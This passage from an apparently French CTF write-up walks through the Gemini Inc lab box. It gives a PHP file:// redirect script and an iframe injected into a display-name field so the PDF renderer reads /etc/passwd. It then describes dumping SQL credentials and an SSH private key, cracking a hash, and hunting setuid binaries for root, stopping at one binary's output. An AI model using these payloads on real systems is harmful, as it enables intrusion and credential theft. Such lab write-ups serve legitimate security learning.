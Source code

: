 J'ai ensuite tenté d'utiliser du code Javascript pour que le navigateur ouvre /etc/passwd (*document.href = 'file:///etc/passwd'*), toujours sans résultat.  

Enfin j'ai créé le script *index.php* suivant qui redirige vers le fichier */etc/passwd* et lancé un serveur web PHP minimaliste avec *php -S 0.0.0.0:8888* :  

```php
<?php
$filename = $_GET["file"];
header("Location: file://$filename");
?>
```

et en injectant le code HTML suivant dans le *Display name* :  

```html
<iframe height="1000" width="1000" src="http://192.168.2.240:8888/?file=/etc/passwd"></iframe>
```

On obtient enfin le fichier attendu :  

![Gemini CTF /etc/passwd dump](https://raw.githubusercontent.com/devl00p/blog/master/images/gemini_etc_passwd.png)

Je trouve facilement le fichier où sont stockés les identifiants SQL de l'appli (avec le Github c'est pas trop compliqué) :  

![Gemini CTF SQL credentials dump](https://raw.githubusercontent.com/devl00p/blog/master/images/gemini_settings_php.png)

Mais ceux-çi s'avèrent inutiles. On a plus de chances en dumpant le contenu de */home/gemini1/.ssh/id\_rsa* qui nous offre un accès SSH :)  

9 10 11 12 pour passer root
---------------------------

Grace aux identifiants SQL je cherche un compte en base (c'est un serveur MariaDB) mais je ne trouve qu'un compte *demo* et un hash vite cassé en *demodemo* :(   

Le serveur Apache tourne avec le user *gemini1* (via l'entrée *export APACHE\_RUN\_USER=gemini1* dans le fichier *envvars*) et le binaire */usr/bin/wkhtmltopdf* appartient aussi à cet utilisateur... mais ça nous fait une belle jambe :|   

Finalement après avoir listé les binaires setuid pour la seconde fois il y en a un qui me fait plus tilter que les autres (j'ai d'abord pensé à un programme lié à Exim) :  

```plain
-rwsr-xr-x 1 root root 8792 Jan  7 06:10 /usr/bin/listinfo
```

Effectivement le binaire semble être fait maison :  

```plain
gemini1@geminiinc:/var/www$ /usr/bin/listinfo
displaying network information...            inet 192.168.2.3  netmask 255.255.255.0  broadcast 192.168.2.255
displaying network information...            inet6 fe80::a00:27ff:fe65:aaca  prefixlen 64  scopeid 0x20<link>
displaying network information...            inet 127.0.0.1  netmask 255.0.0.0
displaying network information...            inet6 ::1  prefixlen 128  scopeid 0x10<host>

displaying Apache listening port...    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN

displaying Apache listening port...    tcp6       0      0 :::22                   :::*                    LISTEN

displaying SSH listening port...    tcp6       0      0 :::80                   :::*                    LISTEN

displaying current date...    Sun Mar 11 20:35:42 EDT 2018
```
